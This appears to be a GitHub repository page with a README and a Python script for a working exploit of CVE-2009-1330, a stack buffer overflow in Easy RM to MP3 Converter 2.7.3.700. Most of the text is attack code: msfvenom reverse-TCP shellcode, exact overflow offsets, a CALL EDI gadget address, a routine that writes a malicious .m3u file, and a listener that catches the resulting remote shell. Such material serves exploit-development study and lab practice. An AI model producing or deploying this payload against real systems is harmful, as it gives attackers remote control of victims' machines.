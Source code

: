 INFO
----

    # CVE-2009-1330

    Exploit for buffer overflow in Easy RM to MP3 Converter 2.7.3.700 (CVE-2009-1330)

    Based on:
    * pwntools
    * msfvenom / reverse_tcp payload
    * ropper
    * x64dbg
    * Easy RM to MP3 Converter 2.7.3.700

    Vulnerable app available at https://www.exploit-db.com/exploits/10374

EXP
---

    #!/usr/bin/env python
    #
    # CVE-2009-1330 using:
    # * pwntools
    # * msfvenom / reverse_tcp payload
    # * ropper
    # * x64dbg
    # * Easy RM to MP3 Converter 2.7.3.700
    #
    # Vulnerable app available at https://www.exploit-db.com/exploits/10374

    from pwn import p32, listen
    from threading import Thread


    def generate_payload():
        # EIP controlled on offset 82179
        # EDI points to shellcode at offset 9926

        # msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LPORT=4444 -a x86
        # LHOST=192.168.15.101 -f python --platform windows -b "\x00\x0a\x0d"
        shellcode = "\x90" * 10  # small NOP slide
        shellcode += "\xbf\x70\xf9\x1b\x1c\xda\xd0\xd9\x74\x24\xf4\x5e"
        shellcode += "\x29\xc9\xb1\x52\x31\x7e\x12\x03\x7e\x12\x83\xb6"
        shellcode += "\xfd\xf9\xe9\xca\x16\x7f\x11\x32\xe7\xe0\x9b\xd7"
        shellcode += "\xd6\x20\xff\x9c\x49\x91\x8b\xf0\x65\x5a\xd9\xe0"
        shellcode += "\xfe\x2e\xf6\x07\xb6\x85\x20\x26\x47\xb5\x11\x29"
        shellcode += "\xcb\xc4\x45\x89\xf2\x06\x98\xc8\x33\x7a\x51\x98"
        shellcode += "\xec\xf0\xc4\x0c\x98\x4d\xd5\xa7\xd2\x40\x5d\x54"
        shellcode += "\xa2\x63\x4c\xcb\xb8\x3d\x4e\xea\x6d\x36\xc7\xf4"
        shellcode += "\x72\x73\x91\x8f\x41\x0f\x20\x59\x98\xf0\x8f\xa4"
        shellcode += "\x14\x03\xd1\xe1\x93\xfc\xa4\x1b\xe0\x81\xbe\xd8"
        shellcode += "\x9a\x5d\x4a\xfa\x3d\x15\xec\x26\xbf\xfa\x6b\xad"
        shellcode += "\xb3\xb7\xf8\xe9\xd7\x46\x2c\x82\xec\xc3\xd3\x44"
        shellcode += "\x65\x97\xf7\x40\x2d\x43\x99\xd1\x8b\x22\xa6\x01"
        shellcode += "\x74\x9a\x02\x4a\x99\xcf\x3e\x11\xf6\x3c\x73\xa9"
        shellcode += "\x06\x2b\x04\xda\x34\xf4\xbe\x74\x75\x7d\x19\x83"
        shellcode += "\x7a\x54\xdd\x1b\x85\x57\x1e\x32\x42\x03\x4e\x2c"
        shellcode += "\x63\x2c\x05\xac\x8c\xf9\x8a\xfc\x22\x52\x6b\xac"
        shellcode += "\x82\x02\x03\xa6\x0c\x7c\x33\xc9\xc6\x15\xde\x30"
        shellcode += "\x81\xd9\xb7\x35\x34\xb2\xc5\x49\xa7\x1e\x43\xaf"
        shellcode += "\xad\x8e\x05\x78\x5a\x36\x0c\xf2\xfb\xb7\x9a\x7f"
        shellcode += "\x3b\x33\x29\x80\xf2\xb4\x44\x92\x63\x35\x13\xc8"
        shellcode += "\x22\x4a\x89\x64\xa8\xd9\x56\x74\xa7\xc1\xc0\x23"
        shellcode += "\xe0\x34\x19\xa1\x1c\x6e\xb3\xd7\xdc\xf6\xfc\x53"
        shellcode += "\x3b\xcb\x03\x5a\xce\x77\x20\x4c\x16\x77\x6c\x38"
        shellcode += "\xc6\x2e\x3a\x96\xa0\x98\x8c\x40\x7b\x76\x47\x04"
        shellcode += "\xfa\xb4\x58\x52\x03\x91\x2e\xba\xb2\x4c\x77\xc5"
        shellcode += "\x7b\x19\x7f\xbe\x61\xb9\x80\x15\x22\xd9\x62\xbf"
        shellcode += "\x5f\x72\x3b\x2a\xe2\x1f\xbc\x81\x21\x26\x3f\x23"
        shellcode += "\xda\xdd\x5f\x46\xdf\x9a\xe7\xbb\xad\xb3\x8d\xbb"
        shellcode += "\x02\xb3\x87"

        filler1 = 'A' * 9926
        filler2 = 'B' * (82179 - len(filler1) - len(shellcode))
        CALL_EDI_ADDR = p32(0x100304ec)  # gadget from MSRMfilter03.dll

        return filler1 + shellcode + filler2 + CALL_EDI_ADDR


    def attack():
        payload = generate_payload()
        fname = "input.m3u"

        f = open(fname, "w")
        f.write(payload)
        f.close()

        print("File {} has been created.".format(fname))
        print("Please use target software to open payload.")


    if __name__ == "__main__":
        # set target info
        LHOST = "127.0.0.1"
        LPORT = 4444

        thread = Thread(target=attack)
        thread.start()

        listener = listen(port=LPORT)
        listener.wait_for_connection()
        listener.interactive()

        thread.join()